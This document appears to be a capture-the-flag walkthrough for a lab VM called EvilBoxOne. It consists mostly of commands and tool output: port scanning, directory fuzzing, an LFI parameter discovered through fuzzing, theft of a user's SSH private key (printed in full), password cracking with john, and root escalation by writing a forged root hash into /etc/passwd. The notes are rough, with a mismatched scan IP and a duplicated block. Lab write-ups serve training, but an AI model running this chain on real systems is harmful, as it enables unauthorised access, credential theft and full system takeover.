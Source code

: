 #### port scan
  $nmap -p- 10.10.11.48 --min-rate 6500
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 18:25 PST
  Stats: 0:00:10 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
  Connect Scan Timing: About 26.95% done; ETC: 18:26 (0:00:27 remaining)
  Nmap scan report for 10.10.11.48
  Host is up (0.089s latency).
  Not shown: 57636 filtered tcp ports (no-response), 7897 closed tcp ports (conn-refused)
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

#### http dir search
  /robots.txt not make sense. the secret page is blank.
      
      $ sudo dirsearch -u http://192.168.56.108/ 
      /usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
        from pkg_resources import DistributionNotFound, VersionConflict
      
        _|. _ _  _  _  _ _|_    v0.4.3
       (_||| _) (/_(_|| (_| )
      
      Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460
      
      Output File: /home/ed/reports/http_192.168.56.108/__24-12-24_21-48-11.txt
      
      Target: http://192.168.56.108/
      
      [21:48:11] Starting: 
      [21:48:12] 403 -  279B  - /.ht_wsr.txt
      [21:48:12] 403 -  279B  - /.htaccess.bak1
      [21:48:12] 403 -  279B  - /.htaccess.save
      [21:48:12] 403 -  279B  - /.htaccess.sample
      [21:48:12] 403 -  279B  - /.htaccess.orig
      [21:48:12] 403 -  279B  - /.htaccess_orig
      [21:48:12] 403 -  279B  - /.htaccessOLD
      [21:48:12] 403 -  279B  - /.htaccess_sc
      [21:48:12] 403 -  279B  - /.htaccess_extra
      [21:48:12] 403 -  279B  - /.htm
      [21:48:12] 403 -  279B  - /.htaccessOLD2
      [21:48:12] 403 -  279B  - /.html
      [21:48:12] 403 -  279B  - /.htaccessBAK
      [21:48:12] 403 -  279B  - /.htpasswd_test
      [21:48:12] 403 -  279B  - /.htpasswds
      [21:48:12] 403 -  279B  - /.httr-oauth
      [21:48:13] 403 -  279B  - /.php
      [21:48:34] 200 -   12B  - /robots.txt
      [21:48:34] 301 -  317B  - /secret  ->  http://192.168.56.108/secret/
      [21:48:34] 200 -    4B  - /secret/
      [21:48:34] 403 -  279B  - /server-status
      [21:48:34] 403 -  279B  - /server-status/
      
      Task Completed
    /dig further, of dir, evil.php is blank again
    
      └─$ ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -u http://192.168.56.108/secret/FUZZ.php

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

             v2.1.0-dev
      ________________________________________________
      
       :: Method           : GET
       :: URL              : http://192.168.56.108/secret/FUZZ.php
       :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
       :: Follow redirects : false
       :: Calibration      : false
       :: Timeout          : 10
       :: Threads          : 100
       :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
      ________________________________________________
      
      # Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 0ms]
      # directory-list-lowercase-2.3-medium.txt [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 1ms]
      # This work is licensed under the Creative Commons  [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 1ms]
      #                       [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 0ms]
      #                       [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 23ms]
      #                       [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 1ms]
      #                       [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 23ms]
      # or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 25ms]
      # Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 23ms]
      # license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 115ms]
      # Priority ordered case insensative list, where entries were found  [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 116ms]
      # on atleast 2 different hosts [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 117ms]
      # Copyright 2007 James Fisher [Status: 200, Size: 4, Words: 1, Lines: 5, Duration: 118ms]
                              [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 121ms]
      evil                    [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 12ms]
                              [Status: 403, Size: 279, Words: 20, Lines: 10, Duration: 1ms]
      :: Progress: [207643/207643] :: Job [1/1] :: 9615 req/sec :: Duration: [0:00:21] :: Errors: 0 ::

  #### further
      /PARAMETER FUZZING 🔨 tried with basic data (string,numbers,etc.. but failed), tried for LFI / path traversal payloads as parameter data value and it worked
      $ ffuf -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 100 -u http://192.168.56.108/secret/evil.php?FUZZ=/etc/passwd -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
      
             v2.1.0-dev
      ________________________________________________
      
       :: Method           : GET
       :: URL              : http://192.168.56.108/secret/evil.php?FUZZ=/etc/passwd
       :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
       :: Follow redirects : false
       :: Calibration      : false
       :: Timeout          : 10
       :: Threads          : 100
       :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
       :: Filter           : Response size: 0
      ________________________________________________
      
      command                 [Status: 200, Size: 1398, Words: 13, Lines: 27, Duration: 5ms]
      :: Progress: [207643/207643] :: Job [1/1] :: 7352 req/sec :: Duration: [0:00:31] :: Errors: 0 ::
  #### view-source:http://192.168.56.108/secret/evil.php?command=/home/mowree/.ssh/id_rsa
      / view-source:   this matters, the id_rsa may pop errors.
      -----BEGIN RSA PRIVATE KEY-----
      Proc-Type: 4,ENCRYPTED
      DEK-Info: DES-EDE3-CBC,9FB14B3F3D04E90E
      
      uuQm2CFIe/eZT5pNyQ6+K1Uap/FYWcsEklzONt+x4AO6FmjFmR8RUpwMHurmbRC6
      hqyoiv8vgpQgQRPYMzJ3QgS9kUCGdgC5+cXlNCST/GKQOS4QMQMUTacjZZ8EJzoe
      o7+7tCB8Zk/sW7b8c3m4Cz0CmE5mut8ZyuTnB0SAlGAQfZjqsldugHjZ1t17mld
      i99+vYdwe8+8nJq4/WXhkN+VTYXndET2H0fFNTFAqbk2HGy6+6qS/4Q6DVVxTHdp
      4Dg2QRnRTjp74dQ1NZ7juucvW7DBFE+CK80dkrr9yFyybVUqBwHrmmQVFGLkS2I/
      8kOVjIjFKkGQ4rNRWKVoo/HaRoI/f2G6tbEiOVclUMT8iutAg8S4VA==
      -----END RSA PRIVATE KEY-----

  #### ceate private key
      sudo nano id_rsa

      sudo chmod 600 id_rsa

      // then the phase 
      $ ssh2john id_rsa > key.hash

      $ john key.hash
        Using default input encoding: UTF-8
        Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
        Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
        Cost 2 (iteration count) is 2 for all loaded hashes
        Will run 3 OpenMP threads
        Proceeding with single, rules:Single
        Press 'q' or Ctrl-C to abort, almost any other key for status
        Almost done: Processing the remaining buffered candidate passwords, if any.
        Proceeding with wordlist:/usr/share/john/password.lst
        unicorn          (id_rsa)     
        1g 0:00:00:00 DONE 2/3 (2024-12-24 23:22) 16.66g/s 212500p/s 212500c/s 212500C/s thumper..xavier
        Use the "--show" option to display all of the cracked passwords reliably
        Session completed. 

      $ sudo ssh -i id_rsa mowree@192.168.56.108
        Enter passphrase for key 'id_rsa': 
        Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

        sudo ssh -i id_rsa mowree@192.168.56.108
        Enter passphrase for key 'id_rsa': 
        Linux EvilBoxOne 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64
        mowree@EvilBoxOne:~$ sudo -l

  #### ep FIND passwd is editable
      $ ls -la /etc/shadow
        -rw-r----- 1 root shadow 941 Aug 16  2021 /etc/shadow
    // generate passwd txt to replace passwd file
      └─$ openssl passwd aabbcc11
        $1$GT8p6DJg$f.wed6GHHUCuIEsJvzyi9/

      root:$1$GT8p6DJg$f.wed6GHHUCuIEsJvzyi9/:0:0:root:/root:/bin/bash
  #### su to root and use the passwd you set
      


      

      
      
      

      
